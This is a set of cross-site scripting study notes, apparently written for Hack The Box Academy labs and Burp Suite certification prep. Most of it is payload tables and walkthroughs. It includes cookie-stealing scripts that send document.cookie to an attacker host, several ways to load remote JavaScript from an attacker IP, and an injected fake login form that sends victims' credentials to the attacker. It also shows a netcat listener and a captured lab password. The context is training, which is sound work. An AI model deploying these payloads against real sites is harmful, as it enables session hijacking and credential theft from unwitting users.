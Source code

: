 # Cross-site Scripting (XSS)  

>Burp Suite Certified Practitioner (BSCP) [My Study Notes on XSS](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#cross-site-scripting)  

## Commands  

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload [XSS Testing Payloads](https://academy.hackthebox.com/module/103/section/967) |
| `<script>alert(document.cookie)</script>` | To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url. |
| `<plaintext>` | Basic XSS Payload |
| `http://94.237.62.82:55501/index.php?task=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E` | Reflected XSS, which gets processed by the back-end server, and DOM-based XSS, which is completely processed on the client-side and never reaches the back-end server. |
| `document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);` | [Identify DOM-XSS in the JavaScript source of the client browser](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#identify-dom-xss)  
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<img src="" onerror=alert(document.cookie)>` | [DOM Attacks](https://academy.hackthebox.com/module/103/section/974) |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
| **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server |


## Identify XSS  

>Simple test payload on target with no protection to identify XSS Reflection: [XSS Discovery](https://academy.hackthebox.com/module/103/section/982)  

```
<script>alert('pass')</script>
```  

![xss-identify](/images/xss-identify.png)  

## Phishing + XSS  

>[Phishing ](https://academy.hackthebox.com/module/103/section/984)  

>Try to find a working XSS payload for the Image URL form found at '/phishing' in the `http://10.129.63.83/phishing/index.php` server.
>Then use what you learned in this section to prepare a malicious URL that injects a malicious login form.
>Then visit '/phishing/send.php' to send the URL to the victim
>The victim user will log into the malicious login form. 
>If you did everything correctly, you should receive the victim's login credentials.
>Use obtained victim login gain access to '/phishing/login.php' and obtain the flag.  

>XSS injection point identified in source code below:  

![xss-source-code-review](/images/xss-source-code-review.png)  

>Below below uses `'>` to break out of te source code img tag.  

```
http://10.129.63.83/phishing/index.php?url=http://10.10.15.41/image.png'><script>alert('xss found')</script>
```  

![xss-phishing-found](/images/xss-phishing-found.png)  

>Login Form Injection phishing attack

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```  

>Use above and make Single JavaScript Cookie Stealer one-liner:

```
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.41><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```  

![xss-cleanup](/images/xss-cleanup.png)  

>Removing the target function input box to get victim to login and provide credentials instead.
>From source code the HTML element we need to remove is the `urlform` id.  

```JavaScript
document.getElementById('urlform').remove();
```  

>Combine above remove functions with single oneline payload:  

```JavaScript
<script>
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.41><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
</script>
<!--
```  

![XSS-Phishing-payload-remove-html-id](/images/XSS-Phishing-payload-remove-html-id.PNG)  

>Using Exploit send phishing link url to victim: `http://10.129.63.83/phishing/send.php`.  

>Once the link send the kali hosted `python3 -m http.server 80` service receive the credentials from victim that clicked on the link and typed their info.

![xss-phishing-server](/images/xss-phishing-server.png)  

```
username=admin&password=p1zd0nt57341myp455
```

## Cookie Stealer  

>BSCP Study notes contain many examples of [cookie stealer payloads](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#dom-based-xss)  

>[Session Hijacking](https://academy.hackthebox.com/module/103/section/1008) aka Cookie Stealer attacks.  

>Target URL: `http://10.129.63.83/hijacking/`  

![cookie-stealer-register](/images/cookie-stealer-register.png)  

>Target response message read, `An Admin will review your registration request.`.  

>Identify vulnerable input field with sample javascript payload: `<script src="http://OUR_IP/username"></script>`  

### Remote JS File Include  

>Using below payload to test how to escape and load remote JavaScript file.

```html
<script src=http://10.10.15.41/1></script>
'><script src=http://10.10.15.41/2></script>
"><script src=http://10.10.15.41/3></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```  

>Successfully Identified the URL field with this payload: `"><script src=http://10.10.15.41/3l33t.js></script>`, Loading a Remote Script.  








